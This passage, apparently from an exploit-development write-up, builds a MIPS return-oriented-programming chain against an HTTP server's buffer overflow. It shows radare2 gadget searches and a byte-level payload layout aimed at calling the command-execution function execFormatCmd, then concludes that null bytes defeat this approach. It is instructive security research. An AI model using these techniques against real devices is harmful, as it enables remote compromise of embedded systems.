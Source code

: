 ```bash
0x00534780           09f82003  jalr t9
0x00534784           21200002  move a0, s0
```

Note that, in MIPS, the `move` instruction at `0x00534784` (known as the [delay slot](https://en.wikipedia.org/wiki/Delay_slot)) is executed before the `jalr` instruction right before it. So we can use it to put the desired value at `$a0` and then jump to `$t9`, where we sould have the address of `execFormatCmd`. However, we don't have direct control of `$t9`, so it looks like we have to add a step in this ROP chain, where we set the value of this register. In this case, we can look for gadgets containing `move $t9, $s0`, again with `radare2`:

```bash
[0x00417620]> /R move $t9, $s0
0x004429f8           21c80002  move t9, s0
0x004429fc           2400bf8f  lw ra, 0x24(sp)
0x00442a00           2000b08f  lw s0, 0x20(sp)
0x00442a04           0800e003  jr ra
0x00442a08           2800bd27  addiu sp, sp, 0x28
...
```

Bingo! This gadget allows us to do the following:
- First, set the value of `$t9` to the value stored in `$s0`, which we control
- Then, we set new values of `$ra` and `$s0` to two other values stored in the stack (which we also control)
- Finally, we jump to `$ra`

The combination of the two gadgets above should allow us to call `execFormatCmd` with an argument pointing to an address of our choice: first, we should jump to the gadget that starts with `move $t9, $s0` (from now on, gadget A), and then to the one that starts with `jalr $t9` (from now on, gadget B). It looks like it's a matter of putting the addresses at the right places and that's it... So let's go step by step to see how our payload should be built.

Taking into account the offsets we have seen above, our payload will have the following structure:
```
 offset (32 bytes) |  $s0  |  $s1  |  $s2  |  $s3  |  $s4  |  $s5  |  $ra  
41414141...4141414142424242434343434444444445454545464646464747474748484848...
```
With such a payload, we would set the value of `s0` to `0x42424242`, the value of `s1` to `0x43434343`, and so on.

The first thing we have to do is return to gadget A, so we need to put its address (which is `0x004429f8`) in `$ra`. That means that our payload will have to be something like this (note that the address is in little-endian order):
```
 offset (32 bytes) |  $s0  |  $s1  |  $s2  |  $s3  |  $s4  |  $s5  |  $ra  
41414141...41414141424242424343434344444444454545454646464647474747f8294400
                                                                   ^
                                                                   address of gadget A in little-endian
```

Now, recall that `$t9` should end up having the address of `execFormatCmd`. To do so, we can first put this address (which is `0x004699bc`) in `$s0`, and then gadget A, with the instruction `move $t9, $s0`, will put it in `$t9` for us. Taking this into account, our payload has to be something like:
```
 offset (32 bytes) |  $s0  |  $s1  |  $s2  |  $s3  |  $s4  |  $s5  |  $ra  
41414141...41414141bc9946004343434344444444454545454646464647474747f8294400
                   ^                                               ^
                   address of execFormatCmd in little-endian       address of gadget A in little-endian
```
Here we can see the major problem we had previously overlooked: our addresses have leading null bytes! If we send the payload above, it will be truncated right after `$s0`, as the HTTP server will interpret the null byte as the end of our string. **This strategy, thus, seems condemned to failure**. We need to think about something different.
